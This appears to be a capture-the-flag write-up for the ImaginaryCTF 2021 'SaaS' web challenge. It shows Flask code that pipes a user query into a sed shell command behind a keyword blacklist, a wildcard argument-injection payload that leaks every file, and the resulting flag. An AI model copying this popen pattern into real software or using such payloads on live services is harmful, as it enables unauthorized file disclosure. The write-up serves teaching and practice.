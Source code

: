 # SaaS 100 Points

# Description

Welcome to Sed as a Service! Now you can filter lorem ipsum to your heart's desire!

http://saas.chal.imaginaryctf.org

# Attachments

https://imaginaryctf.org/r/C279-app.py (Application) If link is down, the code is included below

# Solution

This challenge is pretty easy if you know about **sed** command.


Sed is a command use to search,find,insert and delete texts of given files

example
```bash
echo "Hello World" > text.txt
sed 's/Hello/Bye/' text.txt
Bye World
```

Challenge Web Page

<img src="https://raw.githubusercontent.com/MikelAcker/ImaginaryCTF_2021_Writeup/main/Web/SaaS/info1.png">

Let's look at the given code first.It is pretty small

```python
from flask import Flask, render_template, request
import html
import os

app = Flask(__name__)

@app.route('/')
def index():
    return render_template('index.html')

blacklist = ["flag", "cat", "|", "&", ";", "`", "$"]

@app.route('/backend')
def backend():
    for word in blacklist:
        if word in request.args['query']:
            return "Stop hacking.\n"
    return html.escape(os.popen(f"sed {request.args['query']} stuff.txt").read())
```

It is a flask application.It get the value we search from **query** http parameter and make it as **sed** command option,execute the command and shows the result back in the webpage.

The thing is that we can't do command injection because of blacklist.But we don't have to do that.

One thing is that the **sed** command give the original content of the file if the option is empty.(ie '')

```bash
echo "Hello World" > text.txt
sed '' text.txt
Hello World
```

So, in this challenge, if we give no option with flag.txt it will print out the flag.But in our case, the **flag** is filtered.

We can use **wildcard** (*).Wildcard is character that matches any character or set of characters, including no character.So if we give ('' *) the flag should be reveled.

```bash
echo "Stuff" > stuff.txt
echo "flag" > flag.txt
sed '' * stuff.txt
flag
Stuff
Stuff
```

Let's try that!!!

[https://saas.chal.imaginaryctf.org/backend?query='' *](https://saas.chal.imaginaryctf.org/backend?query=%27%27+*)

<img src="https://raw.githubusercontent.com/MikelAcker/ImaginaryCTF_2021_Writeup/main/Web/SaaS/info2.png">

And, we find the flag

```
ictf{:roocu:roocu:roocu:roocu:roocu:roocursion:rsion:rsion:rsion:rsion:rsion:_473fc2d1}
```
